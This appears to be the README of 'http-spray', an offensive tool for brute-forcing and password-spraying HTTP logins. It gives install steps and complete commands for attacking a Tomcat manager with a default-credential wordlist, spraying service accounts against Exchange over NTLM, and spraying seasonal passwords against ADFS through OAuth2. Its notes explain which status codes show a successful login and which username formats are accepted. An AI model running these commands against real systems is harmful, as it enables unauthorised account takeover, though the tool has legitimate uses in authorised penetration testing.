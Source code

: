 # http-spray

## Setup

Install with [pipx](https://github.com/pypa/pipx/).

~~~ bash
pipx install git+https://github.com/dadevel/http-spray.git
~~~

## Usage

Brute force Tomcat manager.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -C ./tomcat-credentials.txt | tee -a ./log.json | jq -c 'select(.status_code != 401)'
~~~

Spray common service accounts against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm -c scanner:scanner -c printer:printer | tee -a ./log.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe`, `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

Spray weak passwords against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token/ -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./log.json | jq -c 'select(.status_code == 200)'
~~~

> **Note:**
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com`.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.
